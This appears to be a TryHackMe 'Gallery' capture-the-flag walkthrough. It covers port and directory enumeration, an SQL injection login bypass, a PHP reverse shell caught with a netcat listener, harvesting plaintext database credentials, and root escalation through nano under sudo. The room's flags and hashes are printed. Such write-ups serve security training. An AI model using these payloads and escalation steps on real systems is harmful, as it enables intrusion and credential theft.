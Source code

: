 # Gallery

* IP = 10.10.4.131

## Questions/Tasks:
1. How many ports are open?

* Nmap scan report:
```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Simple Image Gallery System

```
**Ans-2**

2. What's the name of the CMS?

* Gobuster report:
```bash
2022/06/20 11:45:53 Starting gobuster
=====================================================
/gallery (Status: 301)
Progress: 26788 / 87666 (30.56%)
```
* Navigating to '/gallery' we're redirected to '/gallery/login.php'
* Firstly we try random creds like: _admin_ and _admin_ and get the following response when we inspect with dev tools:<br>
![Screenshot](./inspect.png)
* The login page is vulnerable to SQL injection(found by observation and testing around)
* Login to /gallery by:
```
' OR 1=1 #
```
in both username and password fields.
**Ans-Simple Image Gallery**

3. What's the hash password of the admin user?

* We navigate to this page(the my account page of the Admin):
![Screenshot](./1.png)
* Try to upload PHP reverse shell code attached with project
  Since the backend is probably made on PHP(hint: login page was login.php)
* Put a netcat listener:
```bash
nc -lnvp 7777
```
* And we get a reverse shell!
![Screenshot](./2.png)
* Stabilise the shell:
```bash
/usr/bin/script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo
fg
export TERM=xterm
```
* We're www-data with lower privileges
* mike is a user in home directory
### Start enumerating the server:
* The /var/www/html/gallery contents:
```bash
www-data@gallery:/var/www/html/gallery$ ls
404.html  build               database  index.php       report       user
albums    classes             dist      initialize.php  schedules
archives  config.php          home.php  login.php       system_info
assets    create_account.php  inc       plugins         uploads

```
* Contents of initialize.php:
```php

  $dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

    if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
    if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
    if(!defined('dev_data')) define('dev_data',$dev_data);
    if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
    if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
    if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
    if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");


```
* The password mentioned in clear text is of dev_oretnom which might be creds of MariaDB database admin
* We login with gallery_user and passw0rd321:
```bash
mysql -u gallery_user -p
```
* We login successfully!
![Screenshot](./3.png)
* Henceforth we explore the database:<br>
![Screenshot](./4.png)
![Screenshot](./5.png)
![Screenshot](./6.png)

**Ans-a228b12a08b6527e7978cbe5d914531c**

4. What's the user flag?

* In the /var directory we find backups directory which contains mike's home backup:
* In which we can find the sudo password for mike from .bash_history:
![Screenshot](./7.png)
![Screenshot](./8.png)
* The password:
```
b3stpassw0rdbr0xx
```
* Escalate with:
```bash
su mike
```

**Ans-THM{af05cd30bfed67849befd546ef}**

5. What's the root flag?

* To Escalate to root privileges we first check commands that can be run as root with:
```bash
$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh

```
* As we can see we can run the above program as root:
* Navigating to /opt and the file contents are:
```bash
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```
* In the above 4 options we can run nano as root
* Hence we execute:
```bash
sudo /bin/bash /opt/rootkit.sh
```
* Take help from <a href="https://gtfobins.github.io/">gtfobins</a> to Escalate privileges through nano:
```bash
nano
^R^X
reset; sh 1>&0 2>&0
```
* ctrl+R for Read File and then ctrl+X to execute commands
![Screenshot](./9.png)
* Navigate to /root and check the root.txt file
**Ans**-
```
THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}
```
